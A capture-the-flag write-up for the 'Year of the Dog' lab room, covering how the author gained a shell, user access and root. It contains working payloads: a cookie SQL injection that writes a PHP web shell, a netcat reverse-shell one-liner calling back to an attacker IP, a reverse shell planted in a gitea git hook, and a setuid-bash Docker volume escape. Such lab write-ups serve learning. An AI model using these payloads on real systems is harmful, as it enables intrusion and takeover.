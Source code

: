 # Year of the Dog

A hard room! Having fun!

## Getting a shell

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`

## Getting user

- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine.
- enumerating this for *hours* got me nowhere. eventually, i went back over the machine with `linpeas.sh` and checked over a file I had seen earlier: `work_analysis`, plain ascii, in dylan's home dir. I had checked this before, seen it as a list of sshd failures with nothing of note. on the second check, huge facepalm, I found it had an entry for a failed login that was obviously the user dylan typing his password as his username. trying this I was able to `su` as dylan.

## Getting root

This was complex. Dylan owned all the files in /gitea, so I figured it was something to do with that.

- i tried to find the gitea executable via `find / -name gitea -type f 2>/dev/null`. I couldn't find it, but i did find git hook config files for each repo
- i had already created a test repo, and it had a file here: `/gitea/git/repositories/dylan/test-repo.git/hooks/update.d/gitea`, the contents of which looked like a standard bash file
- i appended a reverse shell call and then updated the repo. I got a call back! as user `git`
- git had rights to sudo as everything, so I elevated to root and done... right?
- quickly realised I was in a docker container on the main machine, and so no. also, it wasn't a privileged container.
- HOWEVER, the /data/gitea folder inside the container was mapped to /gitea/gitea on the host and they hadn't enabled user remapping in docker! documented here, https://docs.docker.com/engine/security/userns-remap/, in brief, it stops root inside the container from ALSO being effectively root on the host.
- so the final exploit was to copy bash into that mapped folder, use the container root to invoke `chown root bash` and `chmod u+s bash` then invoke it from outside as dylan via `./bash -p`. Boom, root

Very fun, very long. Spent around four hours on this - mostly trying to get various gitea exploits to run. That reverse port forward was ultimately unnecessary, but worth learning for the future.
